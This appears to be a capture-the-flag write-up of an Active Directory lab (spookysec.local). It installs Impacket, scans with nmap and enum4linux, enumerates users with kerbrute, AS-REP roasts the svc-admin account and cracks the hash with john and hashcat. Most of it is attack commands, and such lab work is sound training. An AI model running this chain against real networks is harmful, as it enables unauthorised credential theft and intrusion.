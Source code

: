 Install impacket:
```
sudo su; apt-get update && apt-get upgrade;git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```
To install the Python requirements for Impacket:
```
pip3 install -r /opt/impacket/requirements.txt
```
Once the requirements have finished installing, we can then run the python setup install script:
```
cd /opt/impacket/ && python3 ./setup.py install
```
Install bloodhound and neo4j
```
apt install bloodhound neo4j
```
We use nmap and enum4linux to enumerate the machine.
```
nmap -sV -sC -Pn -T5 10.10.62.43
```
```
enum4linux 10.10.62.43
```
Since the port for kerberos was opened we were able to use kerbrute for user enumeration.

```
./kerbrute userenum --dc 10.10.62.43 -d spookysec.local userlist.txt
```
We then used the command: 
```
python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.62.43
```
On the svc-admin user to get a hash. We then decrypted the hash with john ro get the password for the user.
```
john admin.hash --wordlist=/home/blackzero/rockyou.txt 
```
we also used hashcat:
```
hashcat -m 18200 admin.hash passwordlist.txt
```
